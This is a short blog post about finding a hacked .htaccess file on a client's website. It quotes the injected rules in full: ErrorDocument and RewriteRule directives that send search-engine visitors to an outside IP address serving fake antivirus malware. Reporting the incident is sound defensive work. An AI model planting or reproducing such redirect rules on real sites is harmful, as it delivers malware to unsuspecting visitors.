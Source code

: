 ```yaml
---
layout: post
title: ".htaccess hacked"
custom_v2_id: 50
---
```


Today a client called me telling me that its website was unavailable, or more
exactly that the full content of the FTP was displayed instead of its
homepage.

After a little investigation it appears that the .htaccess file had been
modified, here was the content I found :

    
    RewriteEngine On  
    ErrorDocument 400 http://217.23.5.232/hitin.php?land=20&affid=20116  
    ErrorDocument 401 http://217.23.5.232/hitin.php?land=20&affid=20116  
    ErrorDocument 403 http://217.23.5.232/hitin.php?land=20&affid=20116  
    ErrorDocument 404 http://217.23.5.232/hitin.php?land=20&affid=20116  
    ErrorDocument 500 http://217.23.5.232/hitin.php?land=20&affid=20116  
    RewriteCond %{HTTP_REFERER} .*google.* [OR]  
    RewriteCond %{HTTP_REFERER} .*ask.* [OR]  
    RewriteCond %{HTTP_REFERER} .*yahoo.* [OR]  
    RewriteCond %{HTTP_REFERER} .*excite.* [OR]  
    RewriteCond %{HTTP_REFERER} .*altavista.* [OR]  
    RewriteCond %{HTTP_REFERER} .*msn.* [OR]  
    RewriteCond %{HTTP_REFERER} .*netscape.* [OR]  
    RewriteCond %{HTTP_REFERER} .*aol.* [OR]  
    RewriteCond %{HTTP_REFERER} .*hotbot.* [OR]  
    RewriteCond %{HTTP_REFERER} .*goto.* [OR]  
    RewriteCond %{HTTP_REFERER} .*infoseek.* [OR]  
    RewriteCond %{HTTP_REFERER} .*mamma.* [OR]  
    RewriteCond %{HTTP_REFERER} .*alltheweb.* [OR]  
    RewriteCond %{HTTP_REFERER} .*lycos.* [OR]  
    RewriteCond %{HTTP_REFERER} .*search.* [OR]  
    RewriteCond %{HTTP_REFERER} .*metacrawler.* [OR]  
    RewriteCond %{HTTP_REFERER} .*bing.* [OR]  
    RewriteCond %{HTTP_REFERER} .*dogpile.*  
    RewriteRule ^(.*)$ http://217.23.5.232/hitin.php?land=20&affid=20116 [R=301,L]

A little search online told me that this IP refer to a malware website
launching a fake Antivirus software installation.

I have no idea how the .htaccess got modified, but I changed the FTP password.

